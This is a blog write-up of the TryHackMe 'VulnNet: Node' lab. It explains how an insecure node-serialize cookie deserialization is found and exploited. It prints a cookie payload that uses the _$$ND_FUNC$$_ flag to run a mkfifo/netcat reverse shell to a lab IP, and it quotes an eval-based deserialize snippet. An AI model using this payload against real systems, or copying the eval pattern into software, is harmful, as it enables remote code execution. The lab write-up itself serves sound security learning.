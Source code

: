 ```yaml
---
layout: post
title:  "THM: VulnNet: Node"
date:   2021-04-04 19:00:00 +1100
category: hacking
---
```


## VulnNet: Node
*After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?*

Easy rated. This is [VulnNet: Node](https://tryhackme.com/room/vulnnetnode) from THM. the *Node* refers to [node.js](https://nodejs.org/), and this box has a node deserialization foothold. This isn't a standard write-up; it's all about the foothold.

## Ports
Obviously we're looking for a web port, and the only open port is 8080, so that's what we want. Nmap tells us:

>PORT     STATE SERVICE REASON         VERSION  
8080/tcp open  http    syn-ack ttl 63 Node.js Express framework

## HTTP
On the page we visit it's a news type page, with a link to a login form. We don't need the login page, although if you figured that out immediately then you're sharper than I am. Cutting to the chase: the vulnerable point of this webapp is insecure deserialization of a cookie. Visiting the front page is enough to get the cookie set:

>Cookie: session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D

This looks like (and is) base64. We can decode it:

>{"username":"Guest","isGuest":true,"encoding": "utf-8"}

So, how do we *know* this might be vulnerable to deserialization? It helps if we can prompt an error. Using Burp Suite repeater, we can GET a page that we know exists; it doesn't work with a 404 error. If we delete *part* of the cookie, we can get this error:

>SyntaxError: Unexpected token � in JSON at position 56<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)<br> &nbsp; &nbsp;at /home/www/VulnNet-Node/server.js:16:24<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)

According to the error, this is a result of invalid JSON. Experimenting shows that deleting the **D** at the end of the cookie triggers the error, and so does deleting **3D**. However deleting **%3D** (equivalent to a single **=** in base64) does *not* trigger the error. Deleting some large arbitrary part (eg. half of it) will prompt the error.

Deleting the entire cookie or setting it to an empty string will *not* trigger the error. Changing the parameters in the cookie, e.g.

>{"username":"Timo","isGuest":false,"encoding": "utf-8"}

encoded:

>eyJ1c2VybmFtZSI6IlRpbW8iLCJpc0d1ZXN0IjpmYWxzZSwiZW5jb2RpbmciOiAidXRmLTgifQ==

will *not* prompt the error. Setting the cookie to some nonsense value will trigger the error:

>Cookie: session=asdasdasasd

## Error message
We can see from the error message, we're specifically using **node_modules/node-serialize/lib/serialize.js**. Skipping ahead, we can get information about what was used in this box:

{% highlight shell %}
$ cat package.json
{
  "_from": "node-serialize@0.0.4",
  "_id": "node-serialize@0.0.4",
  "_inBundle": false,
  "_integrity": "sha1-tzpJ4TUzBmVxA6Xkn38FJ5upf38=",
  "_location": "/node-serialize",
  "_phantomChildren": {},
  "_requested": {
    "type": "version",
    "registry": true,
    "raw": "node-serialize@0.0.4",
    "name": "node-serialize",
    "escapedName": "node-serialize",
    "rawSpec": "0.0.4",
    "saveSpec": null,
    "fetchSpec": "0.0.4"
  },
{% endhighlight %}

Digging into the package, we can see that the timestamp on the file (serialize.js) is from May 2014(!), so it's super old. It contains this code:

{% highlight shell %}
var circularTasks = [];
  var key;
  for(key in obj) {
    if(obj.hasOwnProperty(key)) {
      if(typeof obj[key] === 'object') {
        obj[key] = exports.unserialize(obj[key], originObj);
      } else if(typeof obj[key] === 'string') {
        if(obj[key].indexOf(FUNCFLAG) === 0) {
          obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
        } else if(obj[key].indexOf(CIRCULARFLAG) === 0) {
          obj[key] = obj[key].substring(CIRCULARFLAG.length);
          circularTasks.push({obj: obj, key: key});
        }
      }
    }
  }
{% endhighlight %}

The [github repo](https://github.com/luin/serialize) for the code actually calls out the issue:

>This module provides a way to unserialize strings into executable JavaScript code, so that it may lead security vulnerabilities if the original strings can be modified by untrusted third-parties (aka hackers). For instance, the following attack example provided by ajinabraham shows how to achieve arbitrary code injection with an IIFE:

{% highlight javascript %}
var serialize = require('node-serialize');
var x = '{"rce":"_$$ND_FUNC$$_function (){console.log(\'exploited\')}()"}'
serialize.unserialize(x);
{% endhighlight %}

Interestingly, at the current [serialize javascript](https://www.npmjs.com/package/serialize-javascript) page at npm - github [here](https://github.com/yahoo/serialize-javascript) - it specifically says:

>Deserializing  
For some use cases you might also need to deserialize the string. This is explicitly not part of this module. However, you can easily write it yourself:

{% highlight javascript %}
function deserialize(serializedJavascript){
  return eval('(' + serializedJavascript + ')');
}
{% endhighlight %}

The vulnerability in the original version arises through the use of *eval*, which the new package doesn't include but tells you to DIY, because YOLO I guess lol.

## Vuln
The original writeup for the vulnerability seems to be [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). The exploit code is deserialized by the library, but in order to get it to execute, you need to use the [Immediately invoked function expression (IIFE)](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression); essentially '()' after the function body.

There's a slightly more detailed write-up [here](https://blog.websecurify.com/2017/02/hacking-node-serialize.html); which expressly states:

>This means that if we create a JSON object with an arbitrary parameter which contains a value that begins with 

``
_$$ND_FUNC$$_ 
``

>we get remote code execution because it will eval.

This isn't explained anywhere, but it does appear repeatedly in writeups for this box and descriptions of the vulnerability. Where does it come from? From the source code of the [library](https://github.com/luin/serialize/blob/c82e7c3c7e802002ae794162508ee930f4506842/lib/serialize.js), actually:

{% highlight js %}
(function () {
  var FUNCFLAG = '_$$ND_FUNC$$_';
  var CIRCULARFLAG = '_$$ND_CC$$_';
  var KEYPATHSEPARATOR = '_$$.$$_';
  var ISNATIVEFUNC = /^function\s*[^(]*\(.*\)\s*\{\s*\[native code\]\s*\}$/;
// etc
{% endhighlight %}

So one example of code for a shell is this:

{% highlight js %}
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1234 >/tmp/f')}()","isGuest":false,"encoding": "utf-8"}
{% endhighlight %}

No doubt there are others. So, an interesting foothold that could perhaps occur in real life scenarios. The error message is very helpful in narrowing down the focus, and knowing what works to prompt that message is half the battle.
